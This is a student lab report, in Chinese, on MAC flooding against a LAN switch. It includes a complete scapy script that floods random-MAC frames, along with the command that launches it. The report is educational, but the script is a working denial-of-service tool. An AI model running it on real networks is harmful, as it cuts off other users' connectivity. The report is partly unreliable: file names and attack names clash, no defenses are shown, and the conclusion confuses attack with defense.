


# 实验二 MAC 泛洪攻击与防御

Author: Haowen Hu

Student ID: 2023002089

# 实验目的和要求

本实验旨在深入理解交换机的 MAC 地址学习机制及其在网络安全中的重要性, 通过模拟 MAC 泛洪攻击, 观察攻击对交换机转发性能和网络安全的影响.

# 实验内容

使用软件工具对局域网实施 MAC 泛洪攻击, 向网络交换机发送大量带有随机源 MAC 地址的数据帧, 以使交换机的 MAC 地址表迅速被占满, 从而退化为广播模式.
通过观察攻击前后交换机的转发行为和网络性能变化, 分析 MAC 地址表溢出后对网络效率和数据安全的影响. 同时, 针对这种攻击采用多种防御措施进行验证.

# 主要软件

攻击机安装 Arch Linux 操作系统, 并正确接入局域网. 通过以太网接入局域网, 默认通过 DHCP 从网关获取 IP 地址.

攻击机软件脚本使用 Python 编写 (用到了 `scapy` third-party library). 脚本内容参见下方 "实验步骤" 或 [源代码文件](arp.py).

# 实验步骤

1.  攻击机安装好 Arch Linux 操作系统并正确接入局域网.

2.  在系统上安装 Python 软件, 笔者选用 Anaconda. 然后用包管理器安装 `scapy` 库 (as mentioned according to the [package search page](https://anaconda.org/conda-forge/scapy)):

    ```sh
    conda install conda-forge::scapy
    ```

3.  借助 `scapy` library, 编写源代码脚本文件用于发起 MAC 泛洪攻击. 笔者写的[脚本](macof.py)如下:

    ```python
    import time
    import random

    from scapy.layers.l2 import Ether
    from scapy.layers.inet import IP, ICMP
    from scapy.all import sendp

    HEX_DIGITS = "0123456789abcdef"
    FORGERY_IP = "172.16.0.1"
    IFACE = "enp5s0"


    def gen_random_mac() -> str:
        result = ""
        for i in range(6):
            for j in range(2):
                result += random.choice(list(HEX_DIGITS))
            result += ":"
        return result[:-1]


    def send_icmp_packet(forgery_ip: str = FORGERY_IP) -> None:
        src_mac = gen_random_mac()
        dst_mac = gen_random_mac()
        ether_packet = Ether(src=src_mac, dst=dst_mac)
        ether_packet.src = src_mac
        ether_packet.dst = dst_mac
        ether_packet.type = 0x0800  # IPv4
        icmp_packet = IP(dst=forgery_ip) / ICMP(type=8)
        frame = ether_packet / icmp_packet
        print("Packet to send:")
        frame.show()
        sendp(frame, iface=IFACE, verbose=False)


    def attack() -> None:
        send_icmp_packet()


    def main() -> None:
        t = 0
        print("Starting MAC flood attack...")
        try:
            while True:
                attack()
                time.sleep(0.01)
                t += 1
                if t % 50 == 0:
                    print(f"Sent {t} MAC flood attack packets")
        except KeyboardInterrupt:
            print("Stopping MAC flood attack...")


    if __name__ == "__main__":
        main()
    ```

    脚本中定义了 `gen_random_mac()` 函数用于生成随机的 MAC 地址, `send_icmp_packet()` 函数用于发送 ICMP 包, `attack()` 函数用于调用 `send_icmp_packet()` 函数发送 ICMP 包, `main()` 函数用于循环调用 `attack()` 函数, 并打印发送的包数量.

4.  使用命令启动脚本进行 ARP 攻击. 注意若是非 root 用户, 添加 `sudo`.

    ```sh
    sudo python arp.py
    ```

5.  观察局域网内连接的各主机状态. 笔者的攻击机直接连接到交换机设备, 观察与交换机直连的其余各主机, 出现了偶然间网络不畅甚至断网的状况. 但由于笔者所采用的交换机设备具有一定的 MAC 泛洪攻击防御机制, 实际攻击效果并不能达到完全理想的情况, 局域网内各主机并没有 "完全断网". 但从浅显现象也能看出 MAC 泛洪攻击在物理层面上 "部分" 生效.

6.  到任意时刻, 终止 MAC 泛洪攻击 (通过终端向 Python 发送 SIGINT 信号). 终止攻击脚本后, 局域网内各主机网络状态恢复正常, 不再出现 "间歇性断网" 现象.

# 运行结果 (截屏)





# 实验分析与心得

本实验通过模拟 MAC 泛洪攻击, 观察攻击对交换机转发性能和网络安全的影响, 并分析 MAC 地址表溢出后对网络效率和数据安全的影响. 实验中, 笔者使用了 Python 脚本, 并借助 `scapy` 库实现了 MAC 泛洪攻击. 实验结果表明, MAC 泛洪攻击在物理层面上 "部分" 生效, 并对网络性能和数据安全产生了一定影响. 但由于 MAC 泛洪攻击的防御机制并不完善, 攻击者仍有可能通过其他手段绕过防御机制, 导致网络安全问题. 因此, MAC 泛洪攻击在网络安全中应当被视为一种 "有限" 的攻击手段, 并应当配合其他安全措施 (如 ACL, 入侵检测系统等) 一起使用, 才能有效防御网络安全攻击.

最后, 本实验的所有内容 (含代码) 均已上传至 GitHub: https://github.com/srcres258/netsec-exp . 欢迎 Star!本实验的所有内容 (含代码) 均已上传至 GitHub: https://github.com/srcres258/netsec-exp . 欢迎 Star!
